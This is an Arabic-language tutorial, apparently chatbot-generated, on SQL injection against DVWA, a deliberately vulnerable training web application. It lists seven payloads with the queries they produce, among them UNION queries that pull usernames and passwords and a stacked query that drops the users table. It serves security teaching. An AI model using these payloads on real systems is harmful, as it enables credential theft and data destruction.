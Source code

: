 في تطبيق DVWA (Damn Vulnerable Web Application)، يُستخدم لتعليم واختبار تقنيات استغلال ثغرات الويب، خاصةً هجمات SQL Injection. يتضمن التطبيق مستويات أمان مختلفة (من منخفض إلى عالٍ) لتوفير بيئة تدريبية متنوعة.([Pentest Journeys][1])

فيما يلي شرح شامل لأهم الحمولات (Payloads) المستخدمة في استغلال ثغرات SQL Injection في DVWA، مع توضيح كيفية عمل كل منها:

---

## المحور الأول: تجاوز التحقق الأساسي باستخدام شرط دائم الصواب

**الحمولة:**

```sql
1' OR '1'='1' --
```

**الشرح:**
تُستخدم هذه الحمولة لتجاوز التحقق من صحة إدخال المستخدم، حيث يتم إدخال شرط دائم الصواب (`'1'='1'`) في استعلام SQL. عند تنفيذ الاستعلام، يُصبح الشرط دائمًا صحيحًا، مما يؤدي إلى استرجاع جميع السجلات من قاعدة البيانات بدلاً من سجل واحد محدد.([Medium][2])

**مثال على الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1' --';
```

يؤدي هذا الاستعلام إلى استرجاع جميع المستخدمين من جدول `users`، مما يُظهر ضعف التحقق من إدخال المستخدم.([Medium][3])

---

## المحور الثاني: استخدام UNION لاسترجاع بيانات من جداول أخرى

**الحمولة:**

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables --
```

**الشرح:**
تُستخدم هذه الحمولة لاسترجاع أسماء الجداول الموجودة في قاعدة البيانات. يُستخدم `UNION` لدمج نتائج استعلامين، حيث يتم استرجاع أسماء الجداول من جدول النظام `information_schema.tables`.([Medium][2])

**مثال على الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT table_name, NULL FROM information_schema.tables --';
```

يُظهر هذا الاستعلام أسماء جميع الجداول في قاعدة البيانات، مما يُمكن المهاجم من فهم بنية قاعدة البيانات.

---

## المحور الثالث: استرجاع أسماء الأعمدة من جدول محدد

**الحمولة:**

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
```

**الشرح:**
بعد معرفة أسماء الجداول، يُمكن استخدام هذه الحمولة لاسترجاع أسماء الأعمدة من جدول محدد (مثل `users`). يُستخدم `information_schema.columns` لاسترجاع معلومات الأعمدة.

**مثال على الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --';
```

يُظهر هذا الاستعلام أسماء جميع الأعمدة في جدول `users`، مما يُساعد المهاجم في تحديد الأعمدة التي تحتوي على معلومات حساسة.

---

## المحور الرابع: استرجاع بيانات حساسة مثل أسماء المستخدمين وكلمات المرور

**الحمولة:**

```sql
' UNION SELECT user, password FROM users --
```

**الشرح:**
بعد معرفة أسماء الأعمدة، يُمكن استخدام هذه الحمولة لاسترجاع بيانات حساسة مثل أسماء المستخدمين وكلمات المرور. يُستخدم `UNION` لدمج نتائج الاستعلام مع البيانات الحساسة.([Medium][3])

**مثال على الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT user, password FROM users --';
```

يُظهر هذا الاستعلام أسماء المستخدمين وكلمات المرور المخزنة في جدول `users`.

---

## المحور الخامس: تنفيذ استعلامات متعددة باستخدام Stacked Queries

**الحمولة:**

```sql
1'; DROP TABLE users; --
```

**الشرح:**
تُستخدم هذه الحمولة لتنفيذ استعلامات متعددة في وقت واحد. يُستخدم الفاصل `;` لفصل الاستعلامات، مما يُمكن المهاجم من تنفيذ استعلامات إضافية مثل حذف جدول.

**مثال على الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1'; DROP TABLE users; --';
```

يؤدي هذا الاستعلام إلى حذف جدول `users` من قاعدة البيانات، مما يُسبب فقدان البيانات.

---

## المحور السادس: استخدام Time-Based Blind SQL Injection

**الحمولة:**

```sql
1' AND SLEEP(5) --
```

**الشرح:**
تُستخدم هذه الحمولة لاختبار وجود ثغرات SQL Injection عندما لا تُظهر قاعدة البيانات رسائل خطأ. يُستخدم الدالة `SLEEP(5)` لتأخير الاستجابة لمدة 5 ثوانٍ، مما يُشير إلى وجود ثغرة إذا حدث التأخير.

**مثال على الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND SLEEP(5) --';
```

إذا تأخرت الاستجابة لمدة 5 ثوانٍ، فهذا يُشير إلى وجود ثغرة SQL Injection.

---

## المحور السابع: استخدام Boolean-Based Blind SQL Injection

**الحمولة:**

```sql
1' AND 1=1 --
1' AND 1=2 --
```

**الشرح:**
تُستخدم هذه الحمولات لاختبار وجود ثغرات SQL Injection عندما لا تُظهر قاعدة البيانات رسائل خطأ. يُستخدم شرط منطقي دائم الصواب (`1=1`) وشرط دائم الخطأ (`1=2`) لملاحظة اختلاف في سلوك التطبيق.

**مثال على الاستعلام الناتج:**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=1 --';
SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=2 --';
```

إذا أظهر الاستعلام الأول نتائج ولم يُظهر الثاني، فهذا يُشير إلى وجود ثغرة SQL Injection.

---

من خلال فهم هذه الحمولات وكيفية عملها، يُمكن للمطورين ومختبري الأمان التعرف على نقاط الضعف في تطبيقاتهم واتخاذ الإجراءات اللازمة لتعزيز الأمان.

[1]: https://cspanias.github.io/posts/DVWA-SQL-Injection/?utm_source=chatgpt.com "DVWA - SQL Injection - Pentest Journeys"
[2]: https://medium.com/%40waeloueslati18/exploring-dvwa-a-walkthrough-of-the-sql-injection-challenge-part-7-7ada1ae784f2?utm_source=chatgpt.com "Exploring DVWA : A Walkthrough of The SQL injection Challenge ..."
[3]: https://medium.com/%40aayushtiruwa120/dvwa-sql-injection-91b4efb683e4?utm_source=chatgpt.com "DVWA SQL INJECTION. (low,medium, high) | by Aayush Tiruwa"

